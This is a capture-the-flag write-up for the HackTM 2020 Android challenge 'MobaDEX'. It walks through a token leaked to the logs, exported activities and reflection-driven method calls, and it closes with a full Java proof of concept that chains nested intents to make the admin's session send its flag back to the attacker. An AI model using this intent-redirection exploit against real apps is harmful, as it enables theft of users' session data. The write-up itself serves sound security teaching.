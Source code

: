 # MobaDEX

- CTF: **HackTM CTF Finals 2020**
- Difficulty: **Medium**
- Challenge Files: [MobaDEX.apk](https://github.com/Fineas/Me-CTF/blob/master/android_challenges/challenges/MobaDEX/MobaDEX.apk)
- Challenge Page: 

# Writeup

- Description: **It's december, HackTM CTF is rolling, what a time to make new friends. Hop on and join the latest and hottest Android Messaging Service: MobaDEX. MobaDEX allows you to make friends with other CTF players exchange Mobs in a very well-secured environment. It is prohibited to exchange flags.**

- Introduction: By simply running the application on a mobile device, we can get a very good overview of the application. It is an Android Messaging Application, based on a concept similar to Snapchat. The application allows the user to `Register an Account`, `Autenthicate`, `Add Friends`, `Write Moba` and `Read Moba` (the term `Moba` is being used to name the message that is being transferd from one account to another).

- Analysis: 
  * Now that we know what the application is about, let's take a look at how the application works. Looking at the `AndroidManifest.xml` file, we can see that there are multiple Activities declared: `.ProcessMoba`, `.SendMoba`, `.ui.main.ShowMoba`, `.LoginActivity`, `.RegisterActivity`, `.MainActivity`. Somthing that is particularly interesting is that only `RegisterActivity`, `LoginActivity`, and `SendMoba` activities are being exported. We will keep that in mind.
  * Looking at the `RegisterActivity`, we can see that it takes the input from the input fields (name / email / password) and passes it via a `POST` request to: `http://35.246.216.38:8686/api.php`. So the application is using an `API` server to handle the accounts and messages.
  * Now let's take a look at the `SendMoba` Acitvity, after all, the exported activities are some of the easiest entrypoint in the application. We can see that the application gets an `intent` and is expecting to contain `moba_user_token`, `moba_friend_token` and `moba_data` extras. The data is being send to `do_send_moba` which uses a custom serialization method to encode the `moba_data` intent and then alongside user's token and friend's token sends the data to the server. But what is a token? We can see that there is a class called `Session` which has the following structure:
  ```java
  public class Session {

      private String Flag = "HackTM{local_flag}";
      private String token;
      private static Session instance = null;

      protected Session() {
          this.token = "";
      }
      public String getToken(){
          return this.token;
      }
      public String getFlag(){ return this.Flag; }
      public void setToken(String token){
          this.token = token;
      }

      public static Session getInstance() {
          if(instance == null) {
              instance = new Session();
          }
          return instance;
      }
  }
  ```
  So the application holds user's token inside a singleton class called `Session`.
  * Let'stake a look at the `Add Friend` Activity. It looks pretty standard, takes an username and send it to the API server alongside user's token. However, something that later comes into our eyes is an if statement:
  ```java
  if(friend_username.equals("Admin_FeDEX")){
    updateTextView("Cannot add Admin!");
    Log.d("[MobaDEX]", myResponse);
  }
  ```
  So we can see that we are not allowed to add the user `Admin_FeDEX` as a friend. However, trying to add `Admin_FeDEX` as a friend and printing out the logs will display something interesting: 
  ```log
  2020-12-15 21:05:06.904 3012-3012/com.example.mobadex D/[MobaDEX]: 682314393318725
  ```
  This is the admin's token. So although we cannot the admin to our friends list, we are still able to send him a `Moba` by invoking the `SendMoba` activity and put the admin's token inside `moba_friend_token`.
  * We will keep that in mind, and analyze the last main component: `ReadMobaFragment`. It makes a call to the API and loads all the `Mobs` of the user with the token specified in the parameter. Then it sets an `onClick`listener where the `data` and the `id` of the `Moba` is being sent over to the `ProcessMoba` class. Inside the `ProcessMoba` we can see that data is being deserialized and the `moba_display_class` and `moba_display_package` and `moba_display_content` extras are being extracted. Then the information is being stored inside an intent as follows:
  ```java
  Intent intent = new Intent();
  intent.setClassName(moba_package, moba_class);
  intent.putExtra("display_content",moba_content);
  intent.putExtra("display_id",moba_id);
  ```
  This piece of code is very interesting because it sets the `ClassName` to a value that we can control by sending a custom `Moba`. We will keep that as well in mind. After that, there are some extra checks to see if some other extras are present inside the bundle. One thing that stands out is:
  ```java
  if(data.getString("moba_data") != null){
    String get_session_method = data.getString("moba_data");
    String extra_data = "";
    try {
        Method method = sess.getClass().getMethod(get_session_method);
        extra_data = (String)method.invoke(sess);
    } catch (SecurityException e) {
        Log.d("[MobaDEX]","Error:" + e);
        finish();
    }
  ...
  ```
  This piece of code allows us to get our own token if we supply the string `getToken` inside `moba_data`. But at the same time, if we put `getFlag` we are able to read `session.Flag`.
  
- Exploitation
  * With the final discovery, everything is clear. We need to start the `SendMoba` activity and make sure that the `Moba` is being sent to the Admin. Then, we would like instead of `ShowMoba` (which is the default class used when reading a Moba) to use `SendMoba` in order to be able to send the flag back to us. Then we will put the value "getFlag" inside `moba_data` and we're done.
  * Code
  ```java
  @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // EXPLOIT POC
        Intent i = new Intent();

        i.setComponent(new ComponentName("com.example.mobadex","com.example.mobadex.SendMoba"));

        Intent intent_data = new Intent();
        intent_data.putExtra("moba_display_content","PWNED by FeDEX"); // data that will be printed
        intent_data.putExtra("moba_display_package", "com.example.mobadex"); // PACKAGE
        //  intent_data.putExtra("moba_display_class","com.example.mobadex.ui.main.ShowMoba"); // CLASS
        intent_data.putExtra("moba_display_class","com.example.mobadex.SendMoba"); // CLASS
        intent_data.putExtra("moba_user_token","682314393318725"); // VICTIM (send back from admin to me)
        intent_data.putExtra("moba_friend_token","538622981120038"); // ATTACKER
        intent_data.putExtra("moba_data","getFlag"); // function to trigger

        i.putExtra("moba_user_token","538622981120038"); // ATTACKER (send malicious payload from me to admin)
        i.putExtra("moba_friend_token","682314393318725"); // VICTIM
        i.putExtra("moba_data",intent_data);

        startActivity(i);
    }
  ```
- Flag: **HackTM{it_was_un(INTENT)ional}**
